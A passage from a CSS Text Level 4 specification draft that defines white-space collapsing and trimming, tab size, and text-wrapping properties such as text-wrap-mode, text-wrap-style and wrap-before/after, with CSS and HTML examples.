> **Note:** In some cases, preserved white space and other space separators can hang when at the end of the line; this can affect whether they are measured for intrinsic sizing.

The following informative table summarizes the behavior of various `white-space` values:

|  | New Lines | Spaces and Tabs | Text Wrapping | End-of-line spaces | End-of-line other space separators |
| --- | --- | --- | --- | --- | --- |
| `normal` | Collapse | Collapse | Wrap | Remove | Hang |
| `pre` | Preserve | Preserve | No wrap | Preserve | No wrap |
| `nowrap` | Collapse | Collapse | No wrap | Remove | Hang |
| `pre-wrap` | Preserve | Preserve | Wrap | Hang | Hang |
| `break-spaces` | Preserve | Preserve | Wrap | Wrap | Wrap |
| `pre-line` | Preserve | Collapse | Wrap | Remove | Hang |

### 4.  White Space Processing & Control Characters {#css-text-4:white-space-processing}

The source text of a document often contains formatting that is not relevant to the final rendering: for example, [breaking the source into segments](https://rhodesmill.org/brandon/2012/one-sentence-per-line/) (lines) for ease of editing or adding white space characters such as tabs and spaces to indent the source code. CSS white space processing allows the author to control interpretation of such formatting: to preserve or collapse it away when rendering the document. White space processing in CSS (which is controlled with the `white-space-collapse` and `white-space-trim` properties) interprets white space characters only for rendering: it has no effect on the underlying document data.

> **Note:** Depending on the document language, segments can be separated by a particular newline sequence (such as a line feed or CRLF pair), or delimited by some other mechanism, such as the SGML `RECORD-START` and `RECORD-END` tokens.

For CSS processing, each document language–defined “segment break” or “newline sequence”—​or if none are defined, each line feed (U+000A)—​in the text is treated as a **segment break**, which is then interpreted for rendering as specified by the `white-space` property.

In the case of HTML, [newlines](https://html.spec.whatwg.org/multipage/syntax.html#newlines) are normalized to line feed characters (U+000A) for representation in the DOM, so when an HTML document is represented as a DOM tree each line feed (U+000A) is treated as a segment break. [HTML] [DOM]

> **Note:** In most common CSS implementations, HTML does not get styled directly. Instead, it is processed into a DOM tree, which is then styled. Unlike HTML, the DOM does not give any particular meaning to carriage returns (U+000D), so they are not treated as segment breaks. If carriage returns (U+000D) are inserted into the DOM by means other than HTML parsing, they then get treated as defined below.

> **Note:** A document parser might not only normalize any segment breaks, but also collapse other space characters or otherwise process white space according to markup rules. Because CSS processing occurs *after* the parsing stage, it is not possible to restore these characters for styling. Therefore, some of the behavior specified below can be affected by these limitations and may be user agent dependent.

> **Note:** Anonymous blocks consisting entirely of collapsible white space are removed from the rendering tree. Thus any such white space surrounding a block-level element is collapsed away. See [CSS 2 § 9.2.2.1 Anonymous inline boxes](#css2:anonymous). [CSS2]

Control characters (Unicode category `Cc`)—​other than tabs (U+0009), line feeds (U+000A), carriage returns (U+000D) and sequences that form a segment break—​must be rendered as a visible glyph which the UA must synthesize if the glyphs found in the font are not visible, and must be otherwise treated as any other character of the Other Symbols (`So`) general category and Common script. The UA may use a glyph provided by a font specifically for the control character, substitute the glyphs provided for the corresponding symbol in the Control Pictures block, generate a visual representation of its code point value, or use some other method to provide an appropriate visible glyph. As required by Unicode, unsupported `Default_ignorable` characters must be ignored for text rendering. [UNICODE]

Carriage returns (U+000D) are treated identically to spaces (U+0020) in all respects.

> **Note:** For HTML documents, carriage returns present in the source code are converted to line feeds at the parsing stage (see [HTML § 13.2.3.5 Preprocessing the input stream](https://html.spec.whatwg.org/multipage/parsing.html#preprocessing-the-input-stream) and the definition of normalize newlines in [Infra](https://infra.spec.whatwg.org/) and therefore do no appear as U+000D CARRIAGE RETURN to CSS. [HTML] [INFRA]) However, the character *is* preserved—​and the above rule observable—​when encoded using an escape sequence (`&#x0d;`).

#### 4.1.  White Space Collapsing: the `white-space-collapse` property {#css-text-4:white-space-collapsing}

> **Issue:** This section is still under discussion and may change in future drafts.

| Field | Value |
| --- | --- |
| Name: | **white-space-collapse** |
| [Value:](#css-values-4:value-defs) | collapse \| discard \| preserve \| preserve-breaks \| preserve-spaces \| break-spaces |
| [Initial:](#css-cascade-6:initial-values) | collapse |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether and how [white space](#css-text-4:white-space-processing) is collapsed. Values have the following meanings, which must be interpreted according to the [White Space Processing Rules](#css-text-4:white-space-rules):

****collapse****

: This value directs user agents to collapse sequences of white space into a single character (or [in some cases](#css-text-4:line-break-transform), no character).

****preserve****

: This value prevents user agents from collapsing sequences of white space. Segment breaks such as line feeds are preserved as forced line breaks.

****preserve-breaks****

: Like `collapse`, this value collapses consecutive white space characters, but preserves segment breaks in the source as forced line breaks.

****preserve-spaces****

: This value prevents user agents from collapsing sequences of white space, and converts tabs and segment breaks to spaces. (This value is intended to represent the behavior of `xml:space="preserve"` in SVG.)

****break-spaces****

: The behavior is identical to that of `preserve`, except that:

  - Any sequence of preserved white space or other space separators always takes up space, including at the end of the line.
  - A soft wrap opportunity exists after every preserved white space character and after every other space separator (including between adjacent spaces).

  > **Note:** This value does not guarantee that there will never be any overflow due to white space: for example, if the line length is so short that even a single white space character does not fit, overflow is unavoidable.

****discard****

: This value directs user agents to “discard” all white space in the element.

  > **Issue:** Does this preserve line break opportunities or no? Do we need a distinct "hide" value? If it preserves line break opportunities, maybe it should be replaced with a `word-space-transform` value?

White space that was not removed or collapsed due to white space processing is called **preserved white space**.

> **Example:** The following style rules implement MathML’s white space processing:
>
> ```
> @namespace m "http://www.w3.org/1998/Math/MathML";
> m|* {
>   white-space-collapse: discard;
> }
> m|mi, m|mn, m|mo, m|ms, m|mtext {
>   white-space-trim: discard-inner;
> }
> ```

#### 4.2.  White Space Trimming: the `white-space-trim` property {#css-text-4:white-space-trim}

| Field | Value |
| --- | --- |
| Name: | **white-space-trim** |
| [Value:](#css-values-4:value-defs) | none \| discard-before \|\| discard-after \|\| discard-inner |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes and block containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows authors to specify trimming behavior at the beginning and end of a box. Values have the following meanings:

****discard-before****

: This value directs the UA to collapse all collapsible whitespace immediately before the start of the element.

****discard-after****

: This value directs the UA to collapse all collapsible whitespace immediately after the end of the element.

****discard-inner****

: For block containers this value directs UAs to discard all whitespace at the beginning of the element up to and including the last segment break before the first non-white-space character in the element as well as to discard all white space at the end of the element starting with the first segment break after the last non-white-space character in the element. For other elements this value directs UAs to discard all whitespace at the beginning and end of the element.

> **Note:** Discarding document white space using `white-space-trim` can change where soft wrap opportunities occur in the text.

> **Example:** The following style rules render DT elements as a comma-separated list, even if they are coded on separate lines of the source document:
>
> ```
> dt { display: inline; }
> dt + dt:before { content: ", "; white-space-trim: discard-before; }
> ```

> **Example:** The following style rule removes source-formatting white space adjacent to the opening/closing tags of a preformatted block, but not any indentation or interleaved white space applied to the actual contents of the element:
>
> ```
> pre { white-space: pre; white-space-trim: discard-inner; }
> ```
>
> This results in the following two source-code snippets:
>
> ```
> <pre>
>
>   some
> preformatted
>
>   text
>
> </pre>
> ```
>
> ```
> <pre>  some
> preformatted
>
>   text</pre>
> ```
>
> rendering identically as:
>
> ```
>   some
> preformatted
>
>   text
> ```
>
> If instead we apply it to an inline element:
>
> ```
> span { white-space: normal; white-space-trim: discard-inner; }
> ```
>
> ```
> start[<span>
>
>   some
> inline
>   text
>
> </span>]end
> ```
>
> ```
> start[<span>  some
> inline
>   text</span>]end
> ```
>
> this directs the UA to discard *all* of the leading/trailing white space before the actual contents of the element:
>
> ```
> start[some inline text]end
> ```

White space processing for `white-space-trim` takes place before [§ 4.3.1 Phase I: Collapsing and Transformation](#css-text-4:white-space-phase-1).

#### 4.3.  The White Space Processing Rules {#css-text-4:white-space-rules}

Except where specified otherwise, white space processing in CSS affects only the **document white space characters**: **spaces** (U+0020), **tabs** (U+0009), and [segment breaks](#css-text-4:white-space-processing).

> **Note:** The set of characters considered document white space (part of the document content) and those considered syntactic white space (part of the CSS syntax) are not necessarily identical. However, since both include spaces (U+0020), tabs (U+0009), and line feeds (U+000A) most authors won’t notice any differences.

Besides space (U+0020) and no-break space (U+00A0), Unicode defines a number of additional space separator characters. [UNICODE] In this specification all characters in the Unicode general category Zs except space (U+0020) and no-break space (U+00A0) are collectively referred to as **other space separators**.

##### 4.3.1.  Phase I: Collapsing and Transformation {#css-text-4:white-space-phase-1}

> **Note:** `white-space-trim` is taken into account prior to this phase.

For each inline (including anonymous inlines; see [CSS 2 § 9.2.2.1 Anonymous inline boxes](#css2:anonymous) [CSS2]) within an inline formatting context, white space characters are processed as follows prior to line breaking and [bidi reordering](#css-writing-modes-4:text-direction), ignoring **bidi formatting characters** (characters with the `Bidi_Control` property [UAX9]) as if they were not there:

- If `white-space-collapse` is set to `collapse` or `preserve-breaks`, white space characters are considered **collapsible** and are processed by performing the following steps:

  1. Any sequence of collapsible spaces and tabs immediately preceding or following a segment break is removed.
  2. Collapsible segment breaks are transformed for rendering according to the [segment break transformation rules](#css-text-4:line-break-transform).
  3. Every collapsible tab is converted to a collapsible space (U+0020).
  4. Any collapsible space immediately following another collapsible space—​even one outside the boundary of the inline containing that space, provided both spaces are within the same inline formatting context—​is collapsed to have zero advance width. (It is invisible, but retains its soft wrap opportunity, if any.)
- If `white-space-collapse` is set to `preserve-spaces`, each tab and segment break is converted to a space.
- If `white-space-collapse` is set to `preserve` or `preserve-spaces`, any sequence of spaces is treated as a sequence of non-breaking spaces except that a soft wrap opportunity exists at the end of each maximal sequence of spaces and/or tabs. For `break-spaces`, a soft wrap opportunity exists after every space and every tab.

> **Example:** The following example illustrates the interaction of white-space collapsing and bidirectionality. Consider the following markup fragment, taking special note of spaces (with varied backgrounds and borders for emphasis and identification):
>
> ```
> <ltr>A <rtl> B </rtl> C</ltr>
> ```
>
> where the `<ltr>` element represents a left-to-right embedding and the `<rtl>` element represents a right-to-left embedding. If the `white-space` property is set to `normal`, the white-space processing model will result in the following:
>
> - The space before the B ( ) will collapse with the space after the A ( ).
> - The space before the C ( ) will collapse with the space after the B ( ).
>
> This will leave two spaces, one after the A in the left-to-right embedding level, and one after the B in the right-to-left embedding level. The text will then be ordered according to the Unicode bidirectional algorithm, with the end result being:
>
> ```
> A  BC
> ```
>
> Note that there will be two spaces between A and B, and none between B and C. This is best avoided by putting spaces outside the element instead of just inside the opening and closing tags and, where practical, by relying on implicit bidirectionality instead of explicit embedding levels.

##### 4.3.2.  Phase II: Trimming and Positioning {#css-text-4:white-space-phase-2}

Then, the entire block is rendered. Inlines are laid out, taking [bidi reordering](#css-writing-modes-4:text-direction) into account, and wrapping as specified by the `text-wrap-mode` and `text-wrap-style` property. As each line is laid out,

1. A sequence of collapsible spaces at the beginning of a line is removed.
2. If the tab size is zero, preserved tabs are not rendered. Otherwise, each preserved tab is rendered as a horizontal shift that lines up the start edge of the next glyph with the next tab stop. If this distance is less than `0.5ch`, then the subsequent tab stop is used instead. **Tab stops** occur at points that are multiples of the tab size from the starting content edge of the preserved tab’s nearest block container ancestor. The tab size is given by the `tab-size` property.

   > **Note:** See the Unicode [rules on how tabulation (U+0009) interacts with bidi](http://unicode.org/reports/tr9/#L1). [UAX9]
3. A sequence of collapsible spaces at the end of a line is removed, as well as any trailing U+1680   OGHAM SPACE MARK whose `white-space-collapse` property is `collapse` or `preserve-breaks`.

   > **Note:** Due to Unicode Bidirectional Algorithm rule [L1](http://unicode.org/reports/tr9/#L1), a sequence of collapsible spaces located at the end of the line prior to [bidi reordering](#css-writing-modes-4:text-direction) will also be at the end of the line after reordering. [UAX9] [CSS-WRITING-MODES-4]
4. If there remains any sequence of white space, other space separators, and/or preserved tabs at the end of a line (after [bidi reordering](#css-writing-modes-4:text-direction) [CSS-WRITING-MODES-4]):

  - If `white-space-collapse` is `collapse` or `preserve-breaks`, the UA must hang this sequence (unconditionally).
  - If `white-space-collapse` is `preserve` and `text-wrap-mode` is not `nowrap`, the UA must (unconditionally) hang this sequence, unless the sequence is followed by a forced line break, in which case it must conditionally hang the sequence instead. It may also visually collapse the character advance widths of any that would otherwise overflow.

    > **Note:** Hanging the white space rather than collapsing it allows users to see the space when selecting or editing text.
  - If `white-space-collapse` is set to `break-spaces`, spaces, tabs, and other space separators are treated the same as other visible characters: they cannot hang nor have their advance width collapsed.

    > **Note:** Such characters therefore take up space, and depending on the available space and applicable line breaking controls will either overflow or cause the line to wrap.

   > **Issue:** What should happen here for `white-space-collapse: preserve-spaces`?

> **Example:** This example shows that conditionally hanging white space at the end of lines with forced breaks provides symmetry with the start of the line. An underline is added to help visualize the spaces.
>
> ```
> p {
>   white-space: pre-wrap;
>   width: 5ch;
>   border: solid 1px;
>   font-family: monospace;
>   text-align: center;
> }
> ```
>
> ```
> <p> 0 </p>
> ```
>
> The sample above would be rendered as follows:
>
> 0
>
> Since the final space is before a forced line break and does not overflow, it does not hang, and centering works as expected.

> **Example:** This example illustrates the difference between hanging spaces at the end of lines without forced breaks, and conditionally hanging them at the end of lines with forced breaks. An underline is added to help visualize the spaces.
>
> ```
> p {
>   white-space: pre-wrap;
>   width: 3ch;
>   border: solid 1px;
>   font-family: monospace;
> }
> ```
>
> ```
> <p> 0 0 0 0 </p>
> ```
>
> The sample above would be rendered as follows:
>
> 0  0 0  0
>
> If `p { text-align: right; }` was added, the result would be as follows:
>
> 0  0 0   0
>
> As the preserved spaces at the end of lines without a forced break must hang, they are not considered when placing the rest of the line during text alignment. When aligning towards the end, this means any such spaces will overflow, and will not prevent the rest of the line’s content from being flush with the edge of the line. On the other hand, preserved spaces at the end of a line *with* a forced break conditionally hang. Since the space at the end of the last line would not overflow in this example, it does not hang and therefore is considered during text alignment.

> **Example:** In the following example, there is not enough room on any line to fit the end-of-line spaces, so they hang on all lines: the one on the line without a forced break because it must, as well as the one on the line with a forced break, because it conditionally hangs and overflows. An underline is added to help visualize the spaces.
>
> ```
> p {
>   white-space: pre-wrap;
>   width: 3ch;
>   border: solid 1px;
>   font-family: monospace;
> }
> ```
>
> ```
> <p>0 0 0 0 </p>
> ```
>
> 0 0  0 0
>
> The last line is not wrapped before the last `0` because characters that conditionally hang are not considered when measuring the line’s contents for fit.

##### 4.3.3.  Segment Break Transformation Rules {#css-text-4:line-break-transform}

When `white-space-collapse` is not `collapse`, segment breaks are not collapsible. For values other than `collapse` or `preserve-spaces` (which transforms them into spaces), segment breaks are instead transformed into a preserved line feed (U+000A).

When `white-space-collapse` is `collapse`, segment breaks are collapsible, and are collapsed as follows:

1. First, any collapsible segment break immediately following another collapsible segment break is removed.
2. Then any remaining segment break is either transformed into a space (U+0020) or removed depending on the context before and after the break. The rules for this operation are UA-defined in this level.

   > **Issue:** Should we define this for Level 4?

   > **Note:** The white space processing rules have already removed any tabs and spaces around the segment break before this context is evaluated.

> **Example:** The purpose of the segment break transformation rules (and white space collapsing in general) is to “unbreak” text that has been [broken into segments](#css-text-4:white-space-processing) to make the document source code easier to work with. In languages that use word separators, such as English and Korean, “unbreaking” a line requires joining the two lines with a space.
>
> ```
> Here is an English paragraph
> that is broken into multiple lines
> in the source code so that it can
> be more easily read and edited
> in a text editor.
> ```
>
> Here is an English paragraph that is broken into multiple lines in the source code so that it can be more easily read and edited in a text editor.
>
> Eliminating a line break in English requires maintaining a space in its place.
>
> In languages that have no word separators, such as Chinese, “unbreaking” a line requires joining the two lines with no intervening space.
>
> ```
> 這個段落是那麼長，
> 在一行寫不行。最好
> 用三行寫。
> ```
>
> 這個段落是那麼長，在一行寫不行。最好用三行寫。
>
> Eliminating a line break in Chinese requires eliminating any intervening white space.
>
> The segment break transformation rules can use adjacent context to either transform the segment break into a space or eliminate it entirely.

> **Note:** Historically, HTML and CSS have unconditionally converted segment breaks to spaces, which has prevented content authored in languages such as Chinese from being able to break lines within the source. Thus UA heuristics need to be conservative about where they discard segment breaks even as they strive to improve support for such languages.

#### 4.4.  Tab Character Size: the `tab-size` property {#css-text-4:tab-size-property}

| Field | Value |
| --- | --- |
| Name: | **tab-size** |
| [Value:](#css-values-4:value-defs) | `<number [0,∞]>` \| `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 8 |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the specified number or absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property determines the **tab size** used to render preserved tab characters (U+0009). A `<number>` represents the measure as a multiple of the advance width of the space character (U+0020) of the nearest block container ancestor of the preserved tab, including its associated `letter-spacing` and `word-spacing`. Negative values are not allowed.

### 5.  Text Wrapping {#css-text-4:text-wrapping}

When inline-level content is laid out into lines, it is broken across line boxes. Such a break is called a **line break**. When a line is broken due to explicit line-breaking controls (such as a preserved newline character), or due to the start or end of a block, it is a **forced line break**. When a line is broken due to content **wrapping** (i.e. when the UA creates unforced line breaks in order to fit the content within the measure), it is a **soft wrap break**. The process of breaking inline-level content into lines is called **line breaking**.

Wrapping is only performed at an allowed break point, called a **soft wrap opportunity**. When wrapping is enabled (see `white-space`), the UA must minimize the amount of content overflowing a line by wrapping the line at a soft wrap opportunity, if one exists. Valid soft wrap opportunities depend on the content language and writing system, as well as on CSS properties that control them, see [§ 6 Line Breaking and Word Boundaries](#css-text-4:line-breaking).

Where text is allowed to wrap is controlled by the [line-breaking rules and controls](#css-text-4:line-breaking); *whether* it is allowed to wrap and how multiple soft wrap opportunities within a line are prioritized is controlled by the `text-wrap-mode`, `text-wrap-style`, `wrap-before`, `wrap-after`, and `wrap-inside` properties.

#### 5.1.  Deciding Whether to Wrap: the `text-wrap-mode` property {#css-text-4:text-wrap-mode}

| Field | Value |
| --- | --- |
| Name: | **text-wrap-mode** |
| [Value:](#css-values-4:value-defs) | wrap \| nowrap |
| [Initial:](#css-cascade-6:initial-values) | wrap |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether inline-level content wraps at unforced soft wrap opportunities.

> **Note:** This property is a longhand of both `white-space` and `text-wrap`.

Possible values:

****wrap****

: Lines may wrap at allowed soft wrap opportunities, as determined by the line-breaking rules in effect, in order to minimize inline-axis overflow.

  > **Note:** See [§ 6.5 Line Breaking Details](#css-text-4:line-break-details) for more information about rules and constrains on soft wrap opportunities.

****nowrap****

: Lines only break at forced line breaks; content that does not fit within the block container overflows it.

Regardless of the `text-wrap-mode` value, preserved segment breaks, and any Unicode character with the `BK`, `CR`, `LF`, and `NL` line breaking class, must be treated as forced line breaks. [UAX14]

> **Note:** The bidi implications of such forced line breaks are defined by the [Unicode Bidirectional Algorithm](https://www.unicode.org/reports/tr9/). [UAX9]

#### 5.2.  Controlling Breaks Within Boxes: the `wrap-inside` property {#css-text-4:wrap-inside}

| Field | Value |
| --- | --- |
| Name: | **wrap-inside** |
| [Value:](#css-values-4:value-defs) | auto \| avoid |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****auto****

: Lines may break at allowed break points within the box, as determined by the line-breaking rules in effect.

****avoid****

: Line breaking is suppressed within the box: the UA may only break within the box if there are no other valid break points in the line. If the text breaks, line-breaking restrictions are honored as for `auto`.

  If boxes with `avoid` are nested and the UA must break within these boxes, a break in an outer box must be used before a break within an inner box may be used.

##### 5.2.1.  Example of using 'wrap-inside: avoid' in presenting a footer {#css-text-4:example-avoid}

> **Example:** The priority of breakpoints can be set to reflect the intended grouping of text.
>
> Given the rules
>
> ```
> footer { wrap-inside: avoid; }
> venue { wrap-inside: avoid; }
> date { wrap-inside: avoid; }
> place { wrap-inside: avoid; }
> ```
>
> and the following markup:
>
> ```
> <footer>
> <venue>27th Internationalization and Unicode Conference</venue>
> &#8226; <date>April 7, 2005</date> &#8226;
> <place>Berlin, Germany</place>
> </footer>
> ```
>
> In a narrow window the footer could be broken as
>
> ```
> 27th Internationalization and Unicode Conference •
> April 7, 2005 • Berlin, Germany
> ```
>
> or in a narrower window as
>
> ```
> 27th Internationalization and Unicode
> Conference • April 7, 2005 •
> Berlin, Germany
> ```
>
> but not as
>
> ```
> 27th Internationalization and Unicode Conference • April
> 7, 2005 • Berlin, Germany
> ```

#### 5.3.  Controlling Breaks Between Boxes: the `wrap-before`/`wrap-after` properties {#css-text-4:wrap-before}

| Field | Value |
| --- | --- |
| Name: | **wrap-before**, **wrap-after** |
| [Value:](#css-values-4:value-defs) | auto \| avoid \| avoid-line \| avoid-flex \| line \| flex |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | inline-level boxes and flex items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

These properties specify modifications to break opportunities in line breaking (and flex line breaking [CSS3-FLEXBOX]). Possible values:

****auto****

: Lines may break at allowed break points before and after the box, as determined by the line-breaking rules in effect.

****avoid****

: Line breaking is suppressed immediately before/after the box: the UA may only break there if there are no other valid break points in the line. If the text breaks, line-breaking restrictions are honored as for `auto`.

****avoid-line****

: Same as `avoid`, but only for line breaks.

****avoid-flex****

: Same as `avoid`, but only for flex line breaks.

****line****

: Force a line break immediately before/after the box if the box is an inline-level box.

****flex****

: Force a flex line break immediately before/after the box if the box is a flex item in a multi-line flex container.

Forced line breaks on inline-level boxes propagate upward through any parent inline boxes the same way forced breaks on block-level boxes propagate upward through any parent block boxes in the same fragmentation context. [CSS3-BREAK]

#### 5.4.  Selecting How to Wrap: the `text-wrap-style` property {#css-text-4:text-wrap-style}

| Field | Value |
| --- | --- |
| Name: | **text-wrap-style** |
| [Value:](#css-values-4:value-defs) | auto \| balance \| stable \| pretty \| avoid-short-last-line |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers hat establish an inline formatting context |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When wrapping is allowed (see `text-wrap-mode`), this property selects between several approaches for wrapping lines, trading off between speed, quality and style of layout, or stability. It does not change which soft wrap opportunity exist, but changes how the user agent selects among them. Possible values:

****auto****

: The exact algorithm for selecting which soft wrap opportunity to break at is UA-defined. The algorithm *may* consider multiple lines when making break decisions. The UA *may* bias for speed over best layout. The UA *must not* attempt to even out all lines (including the last) as for `balance`. This value selects the UA’s preferred (or most Web-compatible) wrapping algorithm.

****balance****

: Line breaks are chosen to balance the remaining (empty) space in each line box, if better balance than `auto` is possible. This should avoid changing—​and in the case of 5 or fewer lines must not change—​the number of line boxes the block would contain if `text-wrap` were set to `auto`.

  > **Note:** The height of the line boxes may nevertheless change, due to changes in which content appears together on one line.

  The remaining space to consider is that which remains after placing floats and inline content, but before any adjustments due to text justification. Line boxes are balanced when the standard deviation from the average inline-size of the remaining space in each line box is reduced over the block (including lines that end in a forced line break).

  Groups of lines separated by a forced line break are processed separately. If the element is affected by `line-clamp`, the clamping effect is applied first, then the remaining lines are balanced.

  The exact algorithm is UA-defined.

  UAs may treat this value as `auto` if there are more than ten lines to balance.

****stable****

: Specifies that content on subsequent lines *should not* be considered when making break decisions so that when editing text any content before the cursor remains stable; otherwise equivalent to `auto`,

****pretty****

: Specifies the UA *should* bias for better layout over speed, and is expected to consider multiple lines when making break decisions. Otherwise equivalent to `auto`.

  The user agent may among other things attempt to avoid excessively short last lines, similarly to `avoid-short-last-line`, but it should also improve the layout in additional ways. The precise set of improvements is user agent dependent, and may include things such as: reducing the variation in length between lines; avoiding [typographic rivers](https://en.wikipedia.org/wiki/River_(typography)); prioritizing different classes of soft wrap opportunities, hyphenation opportunities, or justification opportunities; avoiding hyphenation on too many consecutive lines…

  > **Advisement:** The necessary computations may be expensive, especially when applied to large amounts of text. Authors are encouraged to assess the impact on performance when using `text-wrap-style: pretty`, and possibly use it selectively where it matters most.

****avoid-short-last-line****

: Specifies the UA *should* avoid excessively short last lines, and is expected to consider more than one line when making break decisions (for example, to avoid "fixing" an orphan by making the previous line too short). The user agent may decide against improving the last line when it would make some prior line(s) substantially unbalanced. The user agent should not attempt to improve other aspects of the layout beyond what `auto` if those improvements come at a significant performance cost.

  > **Note:** In western typography, an “orphan” can refer to a single word on the last line of a paragraph. However, not all languages or writing systems wrap lines at word boundaries, and even in languages that do, a few very short words on the last line may still be undesirable, especially if the available inline space is long. This specification does not therefore strictly define lines to be too short only when they are composed a single word, and lets the user agent be the judge of what is excessively short.

  > **Note:** See also the `orphans` property for control over fragmentation and the other typographic meaning of “orphans”.

  > **Example:** For instance, with the given line length, the following test would be wrapped with a single word on the last line, which could be judged too short.
  >
  > ```
  > ἄνδρα μοι ἔννεπε, μοῦσα, πολύτροπον, ὃς μάλα
  > πολλὰ πλάγχθη, ἐπεὶ Τροίης ἱερὸν πτολίεθρον
  > ἔπερσεν.
  > ```
  >
  > Applying `text-wrap-style: avoid-short-last-line` could yield something like this instead, which is arguably more pleasing:
  >
  > ```
  > ἄνδρα μοι ἔννεπε, μοῦσα, πολύτροπον, ὃς
  > μάλα πολλὰ πλάγχθη, ἐπεὶ Τροίης ἱερὸν
  > πτολίεθρον ἔπερσεν.
  > ```

  > **Example:** However, the following fragment is more vexing:
  >
  > ```
  > Circumnavigating
  > the Mississippi
  > river
  > ```
  >
  > An attempt to make the last line less short by wrapping the previous line earlier would result in the following:
  >
  > ```
  > Circumnavigating
  > the
  > Mississippi river
  > ```
  >
  > While the last line would indeed no longer be short, the penultimate line would be unsightly. In such cases, user agents are expected to prefer the first rendering despite `text-wrap-style: avoid-short-last-line` being set.

> **Note:** The `auto` value will typically map to Web browsers’ speedy legacy line breaking, which has so far used first-fit/greedy algorithms that can often give sub-optimal results. UAs can experiment with better line breaking algorithms with this default value, but as optimal results often take more time, `pretty` and `avoid-short-last-line` are offered as opt-ins to take more time for better results. Both values are intended for body text, where the last line is expected to be a bit shorter than the average line, but `avoid-short-last-line` aims to avoid excessively short last lines while staying performant, while `pretty` can sacrifice more speed in pursuit of even better layout; the `balance` value is intended for titles and captions, where equal-length lines of text tend to be preferred; and the `stable` is intended for sections that are, or are likely become toggled as, editable.

> **Issue:** See [thread](http://www.w3.org/mid/0BD85DFF-A147-44EF-B18A-FF03C3D67EF0@verou.me). Issue is about requiring a minimum length for lines. Common measures seem to be
>
> - At least as long as the text-indent.
> - At least X characters.
> - Percentage-based.
>
> Suggestion for value space is `match-indent | <length> | <percentage>` (with `Xch` given as an example to make that use case clear). Alternately `<integer>` could actually count the characters.
>
> It’s unclear how this would interact with text balancing (above); one earlier proposal had them be the same property (with `100%` meaning full balancing).
>
> People have requested word-based limits, but since this is really dependent on the length of the word, character-based is better.

#### 5.5.  Joint Wrapping Control: the `text-wrap` shorthand property {#css-text-4:text-wrap-shorthand}

| Field | Value |
| --- | --- |
| Name: | **text-wrap** |
| [Value:](#css-values-4:value-defs) | `<'text-wrap-mode'>` \|\| `<'text-wrap-style'>` |
| [Initial:](#css-cascade-6:initial-values) | wrap |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

This property is a shorthand for the `text-wrap-mode` and `text-wrap-style` properties. Any omitted longhand is set to its initial value.

### 6.  Line Breaking and Word Boundaries {#css-text-4:line-breaking}

In most writing systems, in the absence of hyphenation a soft wrap opportunity occurs only at word boundaries. Many such systems (such as English written using the Latin alphabet) use spaces or punctuation to explicitly separate words, and soft wrap opportunities can be identified by these characters.

Scripts such as Thai, Lao, and Khmer, however, do not use spaces or punctuation to separate words. Although the zero width space (U+200B) can be used as an explicit word delimiter in these scripts, this practice is not common. As a result, a lexical resource is needed to correctly identify soft wrap opportunities in such texts.

In some other writing systems, notably Brahmic scripts such as Javanese and Balinese, soft wrap opportunities are based on orthographic syllable boundaries, not word boundaries. Although orthographic syllable breaking does not depend on the content language or require lexical resource, it nonetheless requires analysis of the text to find breaking opportunities.

In others such as Chinese (as well as Japanese, Yi, and sometimes also Korean), each syllable tends to correspond to a single typographic letter unit, and thus line breaking conventions allow the line to break anywhere *except* between certain character combinations. Additionally the level of strictness in these restrictions varies with the typesetting style.

While CSS does not fully define where soft wrap opportunities occur, some controls are provided to distinguish common variations:

- The `line-break` property allows choosing various levels of “strictness” for line breaking restrictions.
